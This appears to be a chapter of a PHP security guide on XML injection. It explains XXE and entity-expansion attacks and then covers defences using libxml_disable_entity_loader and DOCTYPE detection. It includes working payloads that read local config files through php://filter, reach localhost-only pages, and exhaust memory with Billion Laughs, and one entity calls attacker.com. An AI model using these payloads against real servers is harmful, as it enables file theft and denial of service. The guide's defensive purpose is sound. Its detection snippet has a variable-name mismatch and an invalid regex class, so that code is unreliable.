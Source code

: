 XML Injection
=============

Despite the advent of JSON as a lightweight means of communicating data between a server and client, XML remains a viable and popular alternative that is often supported in parallel to JSON by web service APIs. Outside of web services, XML is the foundation of exchanging a diversity of data using XML schemas such as RSS, Atom, SOAP and RDF, to name but a few of the more common standards.

XML is so ubiquitous that it can also be found in use on the web application server, in browsers as the format of choice for XMLHttpRequest requests and responses, and in browser extensions. Given its widespread use, XML can present an attractive target for XML Injection attacks due to its popularity and the default handling of XML allowed by common XML parsers such as libxml2 which is used by PHP in the ``DOM``, ``SimpleXML`` and ``XMLReader`` extensions. Where the browser is an active participant in an XML exchange, consideration should be given to XML as a request format where authenticated users, via a Cross-Site Scripting attack, may be submitting XML which is actually written by an attacker.

XML External Entity Injection
-----------------------------

Vulnerabilities to an XML External Entity Injection (XXE) exist because XML parsing libraries will often support the use of custom entity references in XML. You'll be familiar with XML's standard complement of entities used to represent special markup characters such as ``&gt;``, ``&lt;``, and ``&apos;``. XML allows you to expand on the standard entity set by defining custom entities within the XML document itself. Custom entities can be defined by including them directly in an optional ``DOCTYPE`` and the expanded value they represent may reference an external resource to be included. It is this capacity of ordinary XML to carry custom references which can be expanded with the contents of an external resources that gives rise to an XXE vulnerability. Under normal circumstances, untrusted inputs should never be capable of interacting with our system in unanticipated ways and XXE is almost certainly unexpected for most programmers making it an area of particular concern.

For example, let's define a new custom entity called "harmless":

.. code-block:: xml

    <!DOCTYPE results [ <!ENTITY harmless "completely harmless"> ]>

An XML document with this entity definition can now refer to the &harmless; entity anywhere where entities are allowed:

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [<!ENTITY harmless "completely harmless">]>
    <results>
        <result>This result is &harmless;</result>
    </results>

An XML parser such as PHP DOM, when interpreting this XML, will process this custom entity as soon as the document loads so that requesting the relevant text will return the following:

    This result is completely harmless

Custom entities obviously have a benefit in representing repetitive text and XML with shorter named entities. It's actually not that uncommon where the XML must follow a particular grammar and where custom entities make editing simpler. However, in keeping with our theme of not trusting outside inputs, we need to be very careful as to what all the XML our application is consuming is really up to. For example, this one is definitely not of the harmless variety:

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [<!ENTITY harmless SYSTEM "file:///var/www/config.ini">]>
    <results>
        <result>&harmless;</result>
    </results>

Depending on the contents of the requested local file, the content could be used when expanding the ``&harmless;`` entity and the expanded content could then be extracted from the XML parser and included in the web application's output for an attacker to examine, i.e. giving rise to Information Disclosure. The file retrieved will be interpreted as XML unless it avoids the special characters that trigger that interpretation thus making the scope of local file content disclosure limited. If the file is intepreted as XML but does not contain valid XML, an error will be the likely result preventing disclosure of the contents. PHP, however, has a neat "trick" available to bypass this scope limitation and remote HTTP requests can still, obviously, have an impact on the web application even if the returned response cannot be communicated back to the attacker.

PHP offers three frequently used methods of parsing and consuming XML: PHP ``DOM``, ``SimpleXML`` and ``XMLReader``. All three of these use the ``libxml2`` extension and external entity support is enabled by default. As a consequence, PHP has a by-default vulnerability to XXE which makes it extremely easy to miss when considering the security of a web application or an XML consuming library. 

Examples of XML External Entity Injection
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

File Content And Information Disclosure
"""""""""""""""""""""""""""""""""""""""

We previously met an example of Information Disclosure by noting that a custom entity in XML could reference an external file.

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [<!ENTITY harmless SYSTEM "file:///var/www/config.ini">]>
    <results>
        <result>&harmless;</result>
    </results>

This would expand the custom ``&harmless;`` entity with the file contents. Since all such requests are done locally, it allows for disclosing the contents of all files that the application has read access to. This would allow attackers to examine files that are not publicly available should the expanded entity be included in the output of the application. The file contents that can be disclosed in this are significantly limited - they must be either XML themselves or a format which won't cause XML parsing to generate errors. This restriction can, however, be completely ignored in PHP:

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [
        <!ENTITY harmless SYSTEM
        "php://filter/read=convert.base64-encode/resource=/var/www/config.ini"
        >
    ]>
    <results>
        <result>&harmless;</result>
    </results>

PHP allows access to a PHP wrapper in URI form as one of the protocols accepted by common filesystem functions such as ``file_get_contents()``, ``require()``, ``require_once()``, ``file()``, ``copy()`` and many more. The PHP wrapper supports a number of filters which can be run against a given resource so that the results are returned from the function call. In the above case, we use the ``convert.base-64-encode`` filter on the target file we want to read.

What this means is that an attacker, via an XXE vulnerability, can read any accessible file in PHP regardless of its textual format. All the attacker needs to do is base64 decode the output they receive from the application and they can dissect the contents of a wide range of non-public files with impunity. While this is not itself directly causing harm to end users or the application's backend, it will allow attackers to learn quite a lot about the application they are attempting to map which may allow them to discover other vulnerabilities with a minimum of effort and risk of discovery.

Bypassing Access Controls
"""""""""""""""""""""""""

Access Controls can be dictated in any number of ways. Since XXE attacks are mounted on the backend to a web application, it will not be possible to use the current user's session to any effect but an attacker can still bypass backend access controls by virtue of making requests from the local server. Consider the following primitive access control:

.. code-block:: php

    if (isset($_SERVER['HTTP_CLIENT_IP'])
        || isset($_SERVER['HTTP_X_FORWARDED_FOR'])
        || !in_array(@$_SERVER['REMOTE_ADDR'], array(
            '127.0.0.1',
            '::1',
        ))
    ) {
        header('HTTP/1.0 403 Forbidden');
        exit(
            'You are not allowed to access this file.'
        );
    }

This snippet of PHP and countless others like it are used to restrict access to certain PHP files to the local server, i.e. localhost. However, an XXE vulnerability in the frontend to the application actually gives an attacker the exact credentials needed to bypass this access control since all HTTP requests by the XML parser will be made from localhost.

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [
        <!ENTITY harmless SYSTEM
        "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php"
        >
    ]>
    <results>
        <result>&harmless;</result>
    </results>

If log viewing were restricted to local requests, then the attacker may be able to successfully grab the logs anyway. The same thinking applies to maintenance or administration interfaces whose access is restricted in this fashion.

Denial Of Service (DOS)
"""""""""""""""""""""""

Almost anything that can dictate how server resources are utilised could feasibly be used to generate a DOS attack. With XML External Entity Injection, an attacker has access to make arbitrary HTTP requests which can be used to exhaust server resources under the right conditions.

See below also for other potential DOS uses of XXE attacks in terms of XML Entity Expansions.

Defenses against XML External Entity Injection
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Considering the very attractive benefits of this attack, it might be surprising that the defense is extremely simple. Since ``DOM``, ``SimpleXML``, and ``XMLReader`` all rely on ``libxml2``, we can simply use the ``libxml_disable_entity_loader()`` function to disable external entity resolution. This does not disable custom entities which are predefined in a ``DOCTYPE`` since these do not make use of external resources which require a file system operation or HTTP request.

.. code-block:: php

    $oldValue = libxml_disable_entity_loader(true);
    $dom = new DOMDocument();
    $dom->loadXML($xml);
    libxml_disable_entity_loader($oldValue);

You would need to do this for all operations which involve loading XML from a string, file or remote URI.

Where external entities are never required by the application or for the majority of its requests, you can simply disable external resource loading altogether on a more global basis which, in most cases, will be far more preferable to locating all instances of XML loading, bearing in mind many libraries are probably written with innate XXE vulnerabilities present:

.. code-block:: php
    
    libxml_disable_entity_loader(true);

Just remember to reset this once again to ``TRUE`` after any temporary enabling of external resource loading. An example of a process which requires external entities in an innocent fashion is rendering Docbook XML into HTML where the XSL styling is dependent on external entities.

This ``libxml2`` function is not, by an means, a silver bullet. Other extensions and PHP libraries which parse or otherwise handle XML will need to be assessed to locate their "off" switch for external entity resolution.

In the event that the above type of behaviour switching is not possible, you can alternatively check if an XML document declares a ``DOCTYPE``. If it does, and external entities are not allowed, you can then simply discard the XML document, denying the untrusted XML access to a potentially vulnerable parser, and log it as a probable attack. If you log attacks this will be a necessary step since there be no other errors or exceptions to catch the attempt. This check should be built into your normal Input Validation routines.

.. code-block:: php
    
    /**
     * Attempt a quickie detection
     */
    $collapsedXML = preg_replace("/[:space:]/", '', $xml);
    if(preg_match("/<!DOCTYPE/i", $collapsedXml)) {
        throw new \InvalidArgumentException(
            'Invalid XML: Detected use of illegal DOCTYPE'
        );
    }
    /**
     * Attempt a fallback detection using DOMDocument analysis
     */
    $dom = new DOMDocument;
    $dom->loadXML($xml);
    foreach ($dom->childNodes as $child) {
        if ($child->nodeType === XML_DOCUMENT_TYPE_NODE) {
            throw new \InvalidArgumentException(
                'Invalid XML: Detected use of illegal DOCTYPE'
            );
        }
    }

It is also worth considering that it's preferable to simply discard data that we suspect is the result of an attack rather than continuing to process it further. Why continue to engage with something that shows all the signs of being dangerous? Therefore, merging both steps from above has the benefit of proactively ignoring obviously bad data while still protecting you in the event that discarding data is beyond your control (e.g. 3rd-party libraries). Discarding the data entirely becomes far more compelling for another reason stated earlier - ``libxml_disable_entity_loader()`` does not disable custom entities entirely, only those which reference external resources. This can still enable a related Injection attack called XML Entity Expansion which we will meet next.

XML Entity Expansion
--------------------

XMl Entity Expansion is somewhat similar to XML Entity Expansion but it focuses primarily on enabling a Denial Of Service (DOS) attack by attempting to exhaust the resources of the target application's server environment. This is achieved in XML Entity Expansion by creating a custom entity definition in the XML's ``DOCTYPE`` which could, for example, generate a far larger XML structure in memory than the XML's original size would suggest thus allowing these attacks to consume memory resources essential to keeping the web server operating efficiently.

XML Entity Expansion Examples
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

There are several approaches to expanding XML custom entities to achieve the desired effect of exhausting server resources.

Generic Entity Expansion
""""""""""""""""""""""""

Also known as a "Quadratic Blowup Attack", a generic entity expansion attack, a custom entity is defined as an extremely long string. When the entity is used numerous times throughout the document, the entity is expanded each time leading to an XML structure which requires significantly more RAM than the original XML size would suggest.

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [<!ENTITY long "SOME_SUPER_LONG_STRING">]>
    <results>
        <result>Now include &long; lots of times to expand
        the in-memory size of this XML structure</result>
        <result>&long;&long;&long;&long;&long;&long;&long;
        &long;&long;&long;&long;&long;&long;&long;&long;
        &long;&long;&long;&long;&long;&long;&long;&long;
        &long;&long;&long;&long;&long;&long;&long;&long;
        Keep it going...
        &long;&long;&long;&long;&long;&long;&long;...</result>
    </results>

By balancing the size of the custom entity string and the number of uses of the entity within the body of the document, it's possible to create an XML
file or string which will be expanded to use up a predictable amount of server RAM. By occupying the server's RAM with repetitive requests of this nature, it would be possible to mount a successful Denial Of Service attack. The downside of the approach is that the initial XML must itself be quite large since the memory consumption is based on a simple multiplier effect.

Recursive Entity Expansion
""""""""""""""""""""""""""

Where generic entity expansion requires a large XML input, recursive entity expansion packs more punch per byte of input size. It relies on the XML parser to exponentially resolve sets of small entities in such a way that their exponential nature explodes from a much smaller XML input size into something substantially larger. It's quite fitting that this approach is also commonly called an "XML Bomb" or "Billion Laughs Attack".

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [
        <!ENTITY x0 "BOOM!">
        <!ENTITY x1 "&x0;&x0;">
        <!ENTITY x2 "&x1;&x1;">
        <!ENTITY x3 "&x2;&x2;">
        <!-- Add the remaining sequence from x4...x100 (or boom) -->
        <!ENTITY x99 "&x98;&x98;">
        <!ENTITY boom "&x99;&x99;">
    ]>
    <results>
        <result>Explode in 3...2...1...&boom;</result>
    </results>

The XML Bomb approach doesn't require a large XML size which might be restricted by the application. It's exponential resolving of the entities results in a final text expansion that is 2^100 times the size of the ``&x0;`` entity value. That's quite a large and devastating BOOM!

Remote Entity Expansion
"""""""""""""""""""""""

Both normal and recursive entity expansion attacks rely on locally defined entities in the XML's DTD but an attacker can also define the entities externally. This obviously requires that the XML parser is capable of making remote HTTP requests which, as we met earlier in describing XML External Entity Injection (XXE), should be disabled for your XML parser as a basic security measure. As a result, defending against XXEs defends against this form of XML Entity Expansion attack.
 
Nevertheless, the way remote entity expansion works is by leading the XML parser into making remote HTTP requests to fetch the expanded value of the referenced entities. The results will then themselves define other external entities that the XML parser must additionally make HTTP requests for. In this way, a couple of innocent looking requests can rapidly spiral out of control adding strain to the server's available resources with the final result perhaps itself encompassing a recursive entity expansion just to make matters worse.
 
.. code-block:: xml
 
    <?xml version="1.0"?>
    <!DOCTYPE results [
        <!ENTITY cascade SYSTEM "http://attacker.com/entity1.xml">
    ]>
    <results>
        <result>3..2..1...&cascade<result>
    </results>
 
The above also enables a more devious approach to executing a DOS attack should the remote requests be tailored to target the local application or any other application sharing its server resources. This can lead to a self-inflicted DOS attack where attempts to resolve external entities by the XML parser may trigger numerous requests to locally hosted applications thus consuming an even greater propostion of server resources. This method can therefore be used to amplify the impact of our earlier discussion about using XML External Entity Injection (XXE) attacks to perform a DOS attack.

Defenses Against XML Entity Expansion
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The obvious defenses here are inherited from our defenses for ordinary XML External Entity (XXE) attacks. We should disable the resolution of custom entities in XML to local files and remote HTTP requests by using the following function which globally applies to all PHP XML extensions that internally use ``libxml2``.

.. code-block:: php

    libxml_disable_entity_loader(true);

PHP does, however, have the quirky reputation of not implementing an obvious means of completely disabling the definition of custom entities using an XML DTD via the ``DOCTYPE``. PHP does define a ``LIBXML_NOENT`` constant and there also exists public property ``DOMDocument::$substituteEntities`` but neither if used has any ameliorating effect. It appears we're stuck with using a makeshift set of workarounds instead.

Nevertheless, ``libxml2`` does has a built in default intolerance for recursive entity resolution which will light up your error log like a Christmas tree. As such, there's no particular need to implement a specific defense against recursive entities though we should do something anyway on the off chance ``libxml2`` suffers a relapse.

The primary new danger therefore is the inelegent approach of the Quadratic Blowup Attack or Generic Entity Expansion. This attack requires no remote or local system calls and does not require entity recursion. In fact, the only defense is to either discard XML or sanitise XML where it contains a ``DOCTYPE``. Discarding the XML is the safest bet unless use of a ``DOCTYPE`` is both expected and we received it from a secured trusted source, i.e. we received it over a peer-verified HTTPS connection. Otherwise we need to create some homebrewed logic in the absence of PHP giving us a working option to disable DTDs. We've met this safety check before...

.. code-block:: php

    /**
     * Attempt a quickie detection
     */
    $collapsedXML = preg_replace("/[:space:]/", '', $xml);
    if(preg_match("/<!DOCTYPE/i", $collapsedXml)) {
        throw new \InvalidArgumentException(
            'Invalid XML: Detected use of illegal DOCTYPE'
        );
    }
    /**
     * Attempt a fallback detection using DOMDocument analysis
     */
    $dom = new DOMDocument;
    $dom->loadXML($xml);
    foreach ($dom->childNodes as $child) {
        if ($child->nodeType === XML_DOCUMENT_TYPE_NODE) {
            throw new \InvalidArgumentException(
                'Invalid XML: Detected use of illegal DOCTYPE'
            );
        }
    }

The above is, of course, backed up by having ``libxml_disable_entity_loader`` set to ``TRUE`` so external entity references are not resolved. Where an XML parser is not reliant on ``libxml2`` this may be the only defense possible unless that parser has a comprehensive set of options controlling how entities can be resolved.


SOAP Injection
--------------

TBD